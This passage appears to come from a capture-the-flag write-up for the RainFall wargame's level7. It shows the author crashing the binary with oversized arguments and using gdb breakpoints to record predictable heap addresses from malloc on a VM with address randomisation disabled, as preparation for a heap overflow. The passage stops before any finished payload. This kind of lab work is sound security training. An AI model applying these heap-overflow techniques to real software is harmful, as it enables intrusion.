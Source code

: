 ```bash
level7@RainFall:~$ ./level7  $(python -c 'print "A"*21') $(python -c 'print "A"*20')
Segmentation fault (core dumped)
```

- As address randomization is disabled on the vm, I tried to identify the returns of the malloc calls, which will always be the same as long as they succeed and we try to malloc a size of the same range (tiny / small) and the allocation is not in it's own page

```bash
level7@RainFall:~$ gdb -x /tmp/gdb ./level7
(gdb) r $(python -c 'print "A"*50') $(python -c 'print "B"*50')
Starting program: /home/user/level7/level7 $(python -c 'print "A"*50') $(python -c 'print "B"*50')

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8b59 in ?? () from /lib/i386-linux-gnu/libc.so.6

(gdb) b *main+21
(gdb) b *main+47
(gdb) b *main+68
(gdb) b *main+94

(gdb) r $(python -c 'print "A"*50') $(python -c 'print "B"*50')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level7/level7 $(python -c 'print "A"*50') $(python -c 'print "B"*50')

Breakpoint 1, 0x08048536 in main ()
(gdb) printf "%x", $eax
804a008

(gdb) continue
Continuing.

Breakpoint 2, 0x08048550 in main ()

(gdb) printf "%x", $eax
804a018

(gdb) continue
Continuing.

Breakpoint 3, 0x08048550 in main ()

(gdb) printf "%x", $eax
804a028

(gdb) continue
Continuing.

Breakpoint 4, 0x08048550 in main ()

(gdb) printf "%x", $eax
804a038
```
